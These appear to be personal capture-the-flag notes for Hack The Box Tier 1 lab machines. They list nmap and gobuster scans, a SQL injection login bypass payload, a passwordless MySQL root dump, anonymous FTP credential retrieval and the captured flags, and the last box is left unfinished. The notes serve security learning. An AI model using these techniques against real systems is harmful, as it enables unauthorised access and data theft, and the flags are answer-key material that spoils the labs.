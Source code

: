 # TIER 1 STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

--------------------------------------------------------------------

## APPOINTMENT BOX

**TOOLS USED**: nmap, gobuster

**IP Address**: 10.129.182.2

```
nmap -sC -sV -p- -oN appointment_nmap.txt 10.129.182.2
```

**EXPOSED PORT (SERVICE)**: 80 (http)

```
gobuster dir -u 10.129.182.2 -w /usr/share/dirb/wordlists/common.txt
```

10.129.182.2/js has a js file which shows we can do SQL injection

SQL Validation Query: SELECT * FROM users WHERE name=' ' and password=' '

user: ' or '1'='1 <br>
password: ' or '1'='1 <br>

FLAG: e3d0796d002a446c0e622226f42e9672

--------------------------------------------------------------------

## SEQUEL BOX

**TOOLS USED**: nmap

**IP Address**: 10.129.49.167

```
nmap -sV -sC -T2 -oN sequel_nmap.txt 10.129.49.167
```

**EXPOSED PORT (SERVICE)**: 3306 (mysql)

```
mysql -h 10.129.49.167 -u root
```

```
show databases;
use htb;
show tables;
select * from config, users;
```

FLAG: 7b4bec00d1a39e3dd4e021ec3d915da8

--------------------------------------------------------------------

## CROCODILE BOX

**TOOLS USED**: nmap, gobuster

**IP Address**: 10.129.54.45

```
nmap -sV -sC -T2 -oN crocodile_nmap.txt 10.129.54.45
```

**EXPOSED PORT (SERVICE)**: 21 (ftp), 80 (http)

Anonymous FTP login allowed (FTP code 230)<br>
user:anonymous

```
get allowed.userlist
get allowed.userlist.passw
```

user of interest from allowed.userlist: admin

run wappalyzer browser extension to find website is using php

```
gobuster dir -u http://10.129.54.45 -w /usr/share/dirb/wordlists/common.txt  -x php,html
```

-x: specifies what file types to search for

hidden dir: /login.php

user: admin<br>
password: rKXM59ESxesUFHAd<br>
manually brute forced login

FLAG: c7110277ac44d78b6a9fff2232434d16

--------------------------------------------------------------------

## RESPONDER BOX

**TOOLS USED**: nmap

**IP Address**: 10.129.97.135

```
nmap -sV -sC -oN responder_nmap.txt 10.129.97.135
```

**EXPOSED PORT (SERVICE)**:<bvr>
80 (http),<br>
5985 (http),<br>
7680 (pando-pub)

Port 5985 is WRM (Windows Remote Management) over http

Add "10.129.97.135 unika.htb" to /etc/hosts file because 10.129.97.135 redirects to unika.htb

```
gobuster dir -u http://10.129.97.135 -w /usr/share/dirb/wordlists/common.txt -x php,html
```

FLAG:
